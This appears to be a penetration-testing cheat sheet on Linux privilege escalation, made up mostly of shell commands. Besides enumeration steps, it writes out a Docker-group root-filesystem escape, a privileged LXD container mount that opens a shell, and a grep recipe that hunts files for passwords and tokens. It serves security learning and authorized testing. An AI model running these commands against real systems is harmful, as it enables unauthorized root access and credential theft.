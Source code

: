 ```yaml
---
icon: linux
---
```


# Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

{% code overflow="wrap" %}
```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
{% endcode %}

## User Files

```bash
find / -user <user> -xdev 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -air -oP --exclude="*."{js,css,html} '(?i)[[:space:][:punct:]]?(password|pass|passwd|pwd|credentials|creds|secret|token|key)[[:space:][:punct:]]*[:=][[:space:]]*[^[:space:]]{4,}' . | sort -u | awk -F':' '{ match_str = substr($0, index($0,$2)); gsub(/^[[:space:]]+/, "", match_str); if (length(match_str) > 50) { match_str = substr(match_str, 1, 50) "..."; } blue = "\033[34m"; red = "\033[31m"; reset = "\033[0m"; print "\nFile:  " blue $1 reset "\nMatch: " red match_str reset;}'
```
{% endcode %}

